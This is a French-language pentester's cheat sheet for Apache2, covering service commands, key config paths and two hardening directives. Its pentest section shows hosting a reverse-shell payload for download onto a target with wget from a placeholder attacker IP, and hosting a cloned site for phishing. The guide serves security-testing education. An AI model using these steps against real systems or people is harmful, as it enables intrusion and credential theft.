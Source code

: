 # 🌐 Apache2 : Le Guide Pratique du Pentester

Apache2 est un serveur web robuste et flexible. En pentest, il est incroyablement utile pour héberger des payloads, des sites de phishing, ou pour créer des environnements de test.

## 🔥 Gestion du Service

Voici les commandes de base pour contrôler le service Apache2 avec `systemctl`.

| Commande | Description |
|---|---|
| `sudo systemctl start apache2` | Démarre le serveur. |
| `sudo systemctl stop apache2` | Arrête le serveur. |
| `sudo systemctl restart apache2` | Redémarre le serveur (après une modification). |
| `sudo systemctl status apache2` | Vérifie si le serveur tourne correctement. |
| `sudo systemctl enable apache2` | Active le démarrage automatique au boot. |

## 🎯 Utilisation en Pentest

Le répertoire web par défaut est `/var/www/html/`. Tout ce que vous placez ici est accessible via `http://<VOTRE_IP>`.

### 1. Héberger un Payload

C'est la méthode la plus simple pour transférer un fichier (comme un reverse shell) sur une machine cible.

```bash
# 1. Copiez votre payload dans le dossier web
sudo cp shell.exe /var/www/html/

# 2. Sur la machine cible, téléchargez-le avec wget, curl, ou un navigateur
wget http://<VOTRE_IP>/shell.exe
```

### 2. Cloner un site pour du Phishing

Vous pouvez héberger une copie d'un site pour une campagne de phishing.

```bash
# 1. Créez un dossier pour votre site cloné
sudo mkdir /var/www/html/clone

# 2. Copiez les fichiers de votre site cloné dedans
sudo cp -r site_clone/* /var/www/html/clone/

# 3. Le site sera accessible à l'adresse http://<VOTRE_IP>/clone/
```

## 📂 Fichiers et Dossiers Clés

- **Configuration principale :** `/etc/apache2/apache2.conf`
- **Sites disponibles :** `/etc/apache2/sites-available/` (où vous définissez vos sites)
- **Sites activés :** `/etc/apache2/sites-enabled/` (liens symboliques vers les sites que vous voulez activer)
- **Logs :** `/var/log/apache2/` (consultez `access.log` et `error.log` pour le dépannage)

## 🛡️ Astuces de Sécurisation (Hardening)

Si vous exposez votre serveur Apache sur internet, pensez à masquer les informations par défaut.

```bash
# Dans /etc/apache2/apache2.conf, ajoutez ou modifiez ces lignes :
ServerTokens Prod
ServerSignature Off
```
Cela empêchera Apache de révéler sa version exacte dans les en-têtes HTTP.

---
> 💡 **Conseil :** Pour un hébergement rapide et temporaire, le module `http.server` de Python (`python3 -m http.server 80`) est souvent plus simple et rapide à mettre en place.
